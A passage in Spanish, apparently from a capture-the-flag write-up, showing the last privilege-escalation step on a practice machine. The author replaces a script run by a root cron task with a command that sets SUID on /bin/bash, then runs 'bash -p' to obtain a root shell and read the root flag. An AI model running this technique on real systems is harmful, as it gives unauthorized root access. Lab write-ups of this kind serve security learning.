 Veremos que efectivamente hay alguna tarea programada que esta ejecutando dicho script, pero esto en si, no nos interesa, vamos a borrar todo el contenido del script y poner esto:

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y solo tendremos que esperar un rato a que se ejecute por `root`.

Ahora despues de un rato si listamos la `bash` veremos lo siguiente:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ya se establecieron los permisos `SUID` a la `bash` por lo que podremos hacer lo siguiente para ser `root`.

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Veremos que con esto ya seremos `root`, por lo que habremos terminado la maquina y leeremos la `flag` de `root`.

> grooti.txt

```
⠰⣶⣶⣶⣄⠀⠀⠀⢀⣀⠀⠀⣠⣄⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠻⣿⣿⣿⡀⠀⠀⣿⠿⠷⢾⡏⠉⣿⣄⢀⣿⣷⡆⠀⠀
⢀⣠⣬⡁⢸⣿⣶⣿⣿⡇⠀⣾⡇⠀⣿⡏⠛⢻⣿⢧⣤⠀
⢸⣿⡿⡿⢻⠇⠀⢿⣿⡇⣠⣿⡇⣼⡿⠀⠀⣼⡏⢠⣾⠀
⢸⣿⡀⢀⣿⠀⣴⠈⣿⣿⣿⣿⣿⣿⠃⣾⣤⣿⠀⣼⣿⠀
⢸⣿⣧⢸⣿⣧⣿⣇⣿⣿⣿⣿⣿⣿⣾⣿⣿⣏⣼⣿⣿⠀
⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄
⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁
⠀⢹⣿⣿⣿⣿⣿⠉⠙⣿⣿⣿⣿⣿⡯⠉⢻⣿⣿⣿⣿⠀
⠀⠸⣿⣿⣿⣧⡀⠀⣠⣿⣿⣿⣿⣄⠀⢀⣼⣿⣿⣿⠇⠀
⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀
⠀⠀⠘⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠘⣿⣿⣿⣿⣷⣄⣀⣀⣠⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⠿⠟⠛⠉⠀
```
